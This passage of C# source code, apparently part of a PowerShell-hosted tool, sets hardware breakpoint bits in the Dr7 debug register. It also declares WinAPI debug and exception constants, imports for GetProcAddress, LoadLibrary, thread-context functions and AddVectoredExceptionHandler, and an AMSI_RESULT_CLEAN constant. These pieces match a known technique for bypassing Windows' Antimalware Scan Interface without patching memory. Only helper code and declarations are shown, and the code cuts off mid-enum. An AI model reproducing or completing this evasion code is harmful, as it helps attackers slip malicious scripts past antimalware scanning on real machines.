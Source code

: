 ```powershell
		ctx.Dr7 = SetBits(ctx.Dr7, (index * 2), 1, 1);
		ctx.Dr6 = 0;
		
		Marshal.StructureToPtr(ctx, pCtx, true);
		}
		
		public static ulong SetBits(ulong dw, int lowBit, int bits, ulong newValue) {
			ulong mask = (1UL << bits) - 1UL;
			dw = (dw & ~(mask << lowBit)) | (newValue << lowBit);
			return dw;
		}
	}
	
	public class WinAPI {
		public const UInt32 DBG_CONTINUE = 0x00010002;
		public const UInt32 DBG_EXCEPTION_NOT_HANDLED = 0x80010001;
		public const Int32 EXCEPTION_CONTINUE_EXECUTION = -1;
		public const Int32 EXCEPTION_CONTINUE_SEARCH = 0;
		public const Int32 CREATE_PROCESS_DEBUG_EVENT = 3;
		public const Int32 CREATE_THREAD_DEBUG_EVENT = 2;
		public const Int32 EXCEPTION_DEBUG_EVENT = 1;
		public const Int32 EXIT_PROCESS_DEBUG_EVENT = 5;
		public const Int32 EXIT_THREAD_DEBUG_EVENT = 4;
		public const Int32 LOAD_DLL_DEBUG_EVENT = 6;
		public const Int32 OUTPUT_DEBUG_STRING_EVENT = 8;
		public const Int32 RIP_EVENT = 9;
		public const Int32 UNLOAD_DLL_DEBUG_EVENT = 7;
		
		public const UInt32 EXCEPTION_ACCESS_VIOLATION = 0xC0000005;
		public const UInt32 EXCEPTION_BREAKPOINT = 0x80000003;
		public const UInt32 EXCEPTION_DATATYPE_MISALIGNMENT = 0x80000002;
		public const UInt32 EXCEPTION_SINGLE_STEP = 0x80000004;
		public const UInt32 EXCEPTION_ARRAY_BOUNDS_EXCEEDED = 0xC000008C;
		public const UInt32 EXCEPTION_INT_DIVIDE_BY_ZERO = 0xC0000094;
		public const UInt32 DBG_CONTROL_C = 0x40010006;
		public const UInt32 DEBUG_PROCESS = 0x00000001;
		public const UInt32 CREATE_SUSPENDED = 0x00000004;
		public const UInt32 CREATE_NEW_CONSOLE = 0x00000010;
		
		public const Int32 AMSI_RESULT_CLEAN = 0;
		
		[DllImport("kernel32.dll", SetLastError = true)]
		public static extern bool SetThreadContext(IntPtr hThread, IntPtr lpContext);
		
		[DllImport("kernel32.dll", SetLastError = true)]
		public static extern bool GetThreadContext(IntPtr hThread, IntPtr lpContext);
		
		[DllImport("kernel32.dll", SetLastError = true)]
		public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
		
		[DllImport("kernel32", SetLastError = true, CharSet = CharSet.Ansi)]
		public static extern IntPtr LoadLibrary([MarshalAs(UnmanagedType.LPStr)] string lpFileName);
		
		[DllImport("Kernel32.dll")]
		public static extern IntPtr AddVectoredExceptionHandler(uint First, IntPtr Handler);
		
		[Flags]
		public enum CONTEXT64_FLAGS : uint {
			CONTEXT64_AMD64 = 0x100000,
			CONTEXT64_CONTROL = CONTEXT64_AMD64 | 0x01,
			CONTEXT64_INTEGER = CONTEXT64_AMD64 | 0x02,
			CONTEXT64_SEGMENTS = CONTEXT64_AMD64 | 0x04,
```
